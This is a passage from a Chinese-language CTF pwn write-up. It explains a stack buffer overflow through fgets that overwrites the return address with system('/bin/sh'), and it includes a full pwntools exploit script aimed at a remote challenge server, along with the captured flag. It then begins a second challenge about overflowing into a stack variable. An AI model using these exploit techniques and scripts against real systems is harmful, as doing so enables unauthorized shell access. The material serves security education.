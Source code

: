       fgets处可以溢出

      存在system函数，没有/bin/sh ，需要写入/bin/sh 

      第一个fget写入bss段，可以通过这个fget写入/bin/sh

      通过第二个fget覆盖返回地址，但是n = 10，缓冲区只有10字节

      ![8](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/8.png)

      查看n，发现可以通过数组A越界覆盖n，控制缓冲区的大小

      在第一个fget先填充A，再修改n的值，然后写入/bin/sh

      s与返回地址的距离为0x30+0x4，填充0x34个字节，然后将返回地址修改为system，写入一个无效地址作为system的返回地址，再写入system的参数/bin/sh，此时栈状态为

      |          ...          |
      | :-------------------: |
      | 0x0804A0AC（/bin/sh） |
      |      0xdeadbeef       |
      |  0x80483F0（system）  |
      |          ...          |

      返回到system是直接执行system而不是调用system

      根据调用函数的步骤，参数入栈，然后返回地址入栈，再跳转到被执行函数入口，此时已经跳转到system的入口，参数和返回地址在栈中的顺序也正确，所以可以执行system("/bin/sh")

      ```python
      from pwn import *
      r = remote('182.254.217.142',10001)
      binsh = p32(0x0804A0AC)
      system = p32(0x80483F0)
      payload1 = 'a'*0x28+p32(0x100)+'/bin/sh'
      payload2 = 'a'*0x34+system+p32(0xdeadbeef)+binsh
      r.sendline('1')
      r.sendline(payload1)
      r.sendline(payload2)
      r.interactive()
      #flag{Naya_chyo_ma_thur_meh_lava_ma_puoru}
      ```

      

  * #### 覆盖栈上某个变量的值

    - ##### CGCTF-When did you born？

      ![3](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/3.png)

      没有开启PIE

      ![2](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/2.png)

      v5 = 1926可以得到flag，但输入v5后有一个判断，不能直接输入1926

      v5 != 1926，进入else，在输入v4时可以利用缓冲区溢出把v5的值修改为1926
